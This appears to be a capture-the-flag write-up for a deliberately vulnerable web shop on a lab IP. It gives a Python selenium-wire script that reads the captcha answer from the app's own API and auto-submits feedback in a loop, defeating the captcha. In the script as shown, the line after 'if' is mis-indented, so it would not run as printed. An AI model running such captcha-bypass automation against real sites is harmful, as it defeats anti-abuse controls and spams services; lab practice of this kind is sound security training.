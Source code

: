 ## Send 10 Feedbacks Through the Feedback Form in less than 10 seconds
To solve this challenge, the process and the calling of the API needs to be first explored.

When submitting a feedback through the form, a captcha check is attached at the end. However, this captcha can be easily broken as it isn't an image or puzzle-based captcha, but rather a text math problem.

To solve this challenge, I'm using python's selenium-wire and webdriver_manager to start an instance of Chrome to execute my commands, together with requests and other libraries needed.

		import  requests
		from  requests.api  import  request
		from  seleniumwire  import  webdriver
		from  webdriver_manager.chrome  import  ChromeDriverManager
		import  time
		import  json
After that's done, all we need to do is to specify the URL of the contact form and start the webdriver to launch an instance of Chrome (and start a timer as well)

		urlpage  =  'http://192.168.235.129:3000/#/contact'
		driver  =  webdriver.Chrome(ChromeDriverManager().install())
		start  =  time.time()
We then start a for loop to iterate through each time a form submits, getting the website first, waiting a few milliseconds for it to render (since it is built from Angular) and then getting a captcha GET request with the requests library in order to get the answer for the captcha question. (Then end timer and print resulting end time)

		for  i  in  range (11):
			driver.get("http://192.168.235.129:3000/#/contact")
			time.sleep(0.1)
			arr  = []
			for  request  in  driver.requests:
			if  request.url  ==  "http://192.168.235.129:3000/rest/captcha/":
			arr.append(json.loads(request.response.body))
			answer  =  arr[-1]
			requests.post("http://192.168.235.129:3000/api/Feedbacks/", data={"captchaId":answer.get('captchaId'),"captcha":answer.get('answer'),"comment":"aaaa (anonymous)","rating":2})
	
		end  =  time.time()
		print(end-start)
Full stuff.py file:

	# import libraries

	import  requests
	from  requests.api  import  request
	from  seleniumwire  import  webdriver
	from  webdriver_manager.chrome  import  ChromeDriverManager
	import  time
	import  json

	# specify the url
	urlpage  =  'http://192.168.235.129:3000/#/contact'
	driver  =  webdriver.Chrome(ChromeDriverManager().install())
	start  =  time.time()

	for  i  in  range (11):
		driver.get("http://192.168.235.129:3000/#/contact")
		time.sleep(0.1)
		arr  = []
		for  request  in  driver.requests:
			if request.url  ==  "http://192.168.235.129:3000/rest/captcha/":
			arr.append(json.loads(request.response.body))
		answer  =  arr[-1]
		requests.post("http://192.168.235.129:3000/api/Feedbacks/", data={"captchaId":answer.get('captchaId'),"captcha":answer.get('answer'),"comment":"aaaa (anonymous)","rating":2})

	end  =  time.time()
	print(end-start)

